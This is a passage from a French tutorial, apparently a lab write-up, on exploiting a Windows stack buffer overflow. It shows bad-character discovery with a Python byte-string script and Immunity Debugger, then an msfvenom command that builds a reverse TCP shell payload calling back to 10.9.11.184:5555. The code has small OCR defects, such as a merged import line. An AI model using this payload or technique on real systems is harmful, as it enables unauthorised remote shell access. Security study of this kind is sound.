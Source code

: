 Il est nécessaire de les identifier pour les exclures de notre shellcode.

Pour ça rien de plus simple : https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/

```py
#!/usr/bin/python
import socketimport sys
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

offset_to_eip = 146
total_size = 1000
buffer = "A" * offset_to_eip
buffer += "BBBB"
buffer += badchars
buffer += "A" * (total_size - len(buffer))
```

Ensuite on compare le contenu de la mémoire, après l'EIP, avec les données envoyées.

Debuggerr > First right click the ESP (pointeur du sommet de la pile.) 
Value within the Registers pane and choose Follow in Dump

On peut y voir tous les caractères qu'on a envoyés.

Tous les caractères qui diffèrent sont les mauvais caractères !

On constate que le caractère `\x0a` a été remplacé par `\x00`.

```py
badchars = "\x00\x0a"
```

### Etape 4 : Génération du shellcode

Nous savons maintenant combien de caractères sont nécessaires pour réécrire notre buffer, l'offset où l'EIP est écrasé et les caratères à ne pas utiliser.

Nous allons générer notre shellcode maintenant pour connaitre sa taille, ça va nous permettre de déterminer où l'envoyer dans la mémoire.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.11.184 LPORT=5555 -f py -b "\x00\x0a"
(...)
Payload size: 351 bytes
```
